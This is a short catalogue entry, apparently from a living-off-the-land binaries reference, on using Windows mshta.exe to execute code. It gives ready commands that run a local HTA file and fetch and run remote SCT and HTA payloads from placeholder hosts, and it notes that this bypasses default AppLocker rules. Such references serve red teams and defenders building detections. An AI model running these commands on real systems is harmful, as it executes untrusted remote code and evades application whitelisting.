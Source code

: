 ## Mshta.exe
```

mshta.exe C:\poc\evilfile.hta
Executes code inside evilfile.hta.

mshta.exe javascript:a=GetObject("script:https://gist.github.com/someone/something.sct").Exec();close();
Executes remote SCT file

mshta.exe http://webserver/payload.hta
Executes hta file from external webserver
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: True   
* Mitre: [T1170](https://attack.mitre.org/wiki/Technique/T1170)   
   
* Links:   
  * https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1170/T1170.md
  * https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  * https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  * https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  * https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
   
* File path:   
  * C:\Windows\System32\mshta.exe
  * C:\Windows\SysWOW64\mshta.exe
   
* Acknowledgement:   
  * Name: Casey Smith
    * Twitter: [@Subtee](https://twitter.com/@Subtee)
    * Blog: https://subt0x11.blogspot.com/
   
OS:  
